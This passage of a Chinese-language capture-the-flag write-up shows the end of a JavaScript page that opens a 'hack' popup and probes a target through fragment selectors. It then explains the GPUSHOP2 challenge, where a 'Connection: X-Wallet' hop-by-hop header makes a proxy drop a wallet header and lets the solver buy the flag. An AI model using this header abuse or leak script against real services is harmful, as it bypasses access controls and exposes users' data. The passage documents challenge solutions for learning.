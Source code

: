 ```js
                setTimeout(() => {
                    resolve(true);
                }, TIMEOUT);
            });
        }
        onload = onclick = async () => {
            if (!win || win.closed) {
                win = open('about:blank', 'hack', 'width=800,height=300,top=500');
            }
            for (let i = 1; i < 100; i++) {
                const url = `${URL}/#a,.list-group-item:nth-child(${i})`;
                while (await waitForMessage(url));
            }
        };
    </script>
</body>
</html>
```

## GPUSHOP2 

根据去年的同样题目，我们知道了`X-WALLET`这个header是原罪，只要去除这个header，那么我们就能拿到地址为0的eth地址，这个地址很有钱，所以我们可以去随便购买FLAG。去年这个题目是有非预期的，因为去年的`URL编码`bypass掉了。今年是所有的请求都会添加这个header。实际预期的解法是：https://blog.huli.tw/2022/07/09/google-ctf-2022-writeup/。

简单地说：就是HTTP HEADERS 有两种。

1. End-to-end
2. Hop-by-hop

其中HOP-HOP就是专门给`proxy`看的，换句话说真实的web服务器是看不到的。他在中间的proxy之前通信时就会被删除掉。所以也就给了我们操作的空间，我们如何让`proxy`把`X-wallet`给删除掉呢？

常见hop-hop的请求头有

```
Connection
Keep-Alive
Proxy-Authenticate
Proxy-Authorization
TE
Trailers
Transfer-Encoding
Upgrade
```

其中`Connection`这个请求头很有意思，有趣的点在于，在这个请求头中 可以把其他的不是hop-hop默认请求头的改为默认请求头，所以这个题目也就变成了

```
Connection: X-Wallet
```

参考:https://nathandavison.com/blog/abusing-http-hop-by-hop-request-headers

https://ctftime.org/writeup/17195
